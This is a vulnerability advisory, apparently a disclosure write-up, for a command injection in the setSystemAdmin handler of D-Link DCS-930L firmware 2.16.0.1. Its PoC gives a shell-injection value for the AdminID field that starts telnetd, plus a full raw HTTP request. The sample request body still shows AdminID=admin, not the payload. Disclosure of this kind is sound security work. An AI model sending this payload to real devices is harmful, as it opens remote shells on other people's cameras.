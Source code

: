 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

A command injection vulnerability exists in the setSystemAdmin function of the alphapd binary in D-Link DCS-930L firmware v2.16.0.1. The AdminID parameter is directly taken from user input and inserted into shell commands without proper sanitization, allowing remote attackers to execute arbitrary OS commands via crafted requests. Vulnerable devices may include D‑Link DCS‑930L units running firmware v2.16.0.1 or earlier.


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
Just set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 330
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=539a63634c9a634a9a63cfc3635b0563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563c79a6363c39a63969a6323c363c30563&SessionKey=1325376377&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
